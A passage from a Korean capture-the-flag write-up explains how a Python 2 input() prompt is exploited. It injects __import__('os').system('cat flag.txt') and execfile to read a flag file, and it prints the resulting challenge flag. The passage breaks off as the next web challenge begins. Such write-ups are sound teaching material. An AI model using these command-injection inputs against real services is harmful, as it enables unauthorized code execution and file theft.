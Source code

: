 ```shell
talk.py
tmp
usr
var
Wow!
Sometimes I wish I was 0
Well, it was nice meeting you, 0-year-old.
Goodbye!
```
`flag.txt`가 확인됬다.
플래그는 다음과 같다.
```shell
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> __import__('os').system('cat flag.txt')
hsctf{plz_u5e_pyth0n_3}
Wow!
Sometimes I wish I was 0
Well, it was nice meeting you, 0-year-old.
Goodbye!
```
또는 파일이름을 모르는 상태에서는 불가능하지만, 안다는 가정 하에 빌트인 함수인 `execfile`도 가능하겠다 싶었다.
```shell
Hello!
Hey, can you help me out real quick.
I need to know your age.
What's your age?
> execfile('flag.txt')
Traceback (most recent call last):
  File "talk.py", line 18, in <module>
    age = input("> ")
  File "<string>", line 1, in <module>
  File "flag.txt", line 1
    hsctf{plz_u5e_pyth0n_3}
         ^
SyntaxError: invalid syntax
```
`execfile`은 line 1에서 에러가 나면 line 2부터는 내용을 읽지 않는다는 단점이 있긴 하다.

## [Admin Pass](#index)
`#git`, `#log`, `#history`
```diff
Admin Pass
142
Written by: Weastie

Hey guys, found a super cool website at http://misc.hsctf.com:8001!

Edit: If the site is blocked by school filters, try

http://misc.hsctf.com or http://misc.hsctf.com:8080; both will work!
```
멋진 웹사이트를 발견했단다 들어가보자.
